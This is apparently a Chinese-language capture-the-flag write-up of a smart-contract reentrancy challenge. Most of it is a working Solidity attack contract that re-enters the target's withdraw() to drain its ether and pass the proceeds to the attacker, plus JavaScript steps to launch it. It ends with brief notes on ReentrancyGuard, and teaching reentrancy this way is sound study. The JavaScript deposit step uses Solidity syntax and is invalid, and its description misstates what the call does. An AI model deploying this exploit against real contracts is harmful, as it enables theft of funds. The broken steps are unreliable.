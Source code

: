 攻击步骤：
1. 编写攻击合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Reentrance.sol";

contract ReentranceAttack {
    Reentrance public target;
    address public owner;

    constructor(address payable _target) public {
        target = Reentrance(_target);
        owner = msg.sender;
    }

    // 调用目标合约的 donate 函数
    function donate() public payable {
        target.donate{value: msg.value}(address(this));
    }

    // 发起攻击
    function attack(uint256 _amount) public {
        target.withdraw(_amount);
    }

    // 重入逻辑
    receive() external payable {
        if (address(target).balance > 0) {
            target.withdraw(msg.value);
        }
    }

    // 提取攻击合约中的以太币
    function withdraw() public {
        require(msg.sender == owner, "Not the owner");
        payable(owner).transfer(address(this).balance);
    }
}
```
2. 调用 `donate()` 函数，将合约的余额发送给攻击合约
```js
await contract.donate{value: 1 ether}();
```
3. 调用 `attack()` 函数，发起攻击
```js
await attackContract.attack(1 ether);
```

学习要点：
- 理解 re-entrancy 的机制
- 使用现代的合约框架（如 OpenZeppelin 的 ReentrancyGuard）来实现安全重入控制
